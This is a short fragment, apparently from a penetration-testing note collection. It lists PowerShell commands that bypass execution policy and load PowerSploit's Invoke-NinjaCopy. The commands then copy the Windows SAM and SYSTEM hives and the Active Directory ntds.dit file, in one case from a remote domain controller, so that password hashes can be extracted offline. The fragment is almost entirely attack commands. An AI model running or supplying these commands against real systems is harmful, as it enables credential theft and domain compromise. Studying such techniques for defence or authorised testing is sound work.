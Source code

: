 	#http://192.168.0.101/powersploit/Exfiltration/Invoke-NinjaCopy.ps1
	>powershell -exec bypass
	>Import-Module .\invoke-ninjacopy.ps1
	>Invoke-NinjaCopy -Path C:\Windows\System32\config\SAM -LocalDestination .\sam.hive
	>Invoke-NinjaCopy –Path C:\Windows\System32\config\SYSTEM -LocalDestination .\system.hive
	>Invoke-NinjaCopy -Path "c:\windows\ntds\ntds.dit" -LocalDestination "C:\Windows\Temp\1.dit"
	>Invoke-NinjaCopy -Path "c:\windows\ntds\ntds.dit" -ComputerName "dc.zone.com" -LocalDestination "C:\Windows\Temp\1.dit"
![image](/assets/Pentest_Note/master/img/316.png)